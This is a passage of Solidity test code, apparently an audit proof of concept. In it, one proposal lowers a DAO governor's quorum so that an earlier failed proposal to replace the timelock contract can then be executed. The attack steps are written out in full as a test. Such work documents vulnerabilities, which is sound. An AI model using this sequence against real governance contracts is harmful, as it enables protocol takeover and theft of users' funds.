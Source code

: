 ```Solidity
        // Finally, the first proposal which didn't executed at first, now it is executed successfully!

        hevm.startPrank(dead);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();
    }

    function testChangingTheTimelockContractAttack() public {
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
        createVeAlcx(beef, 5e22, MAXTIME, false);
        createVeAlcx(dead, 15_000e18, MAXTIME, false);

        hevm.warp(block.timestamp + 50);
        console2.log("Previous Timelock: ", address(timelockExecutor));

        // The first proposal which aims to update the timelock contract
        // which couldn't be passed due to not reaching the quorum

        hevm.startPrank(dead);

        (address[] memory t1, uint256[] memory v1, bytes[] memory c1, string memory d1) = craftChangeTimelockProposal();
        uint256 pid1 = governor.propose(t1, v1, c1, d1, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(dead);
        governor.castVote(pid1, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t1, v1, c1, keccak256(bytes(d1)), MAINNET);
        hevm.stopPrank();

        // The second proposal which aims to change the acceptance quorum

        hevm.startPrank(beef);
        uint256 previousQuorum = governor.quorumNumerator();
        console2.log("Previous Quorum: ", previousQuorum);

        (address[] memory t2, uint256[] memory v2, bytes[] memory c2, string memory d2) = craftUpdateQuorumProposal();
        uint pid2 = governor.propose(t2, v2, c2, d2, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid2, 1);
        hevm.stopPrank();

        hevm.startPrank(dead);
        governor.castVote(pid2, 1);
        hevm.stopPrank();
```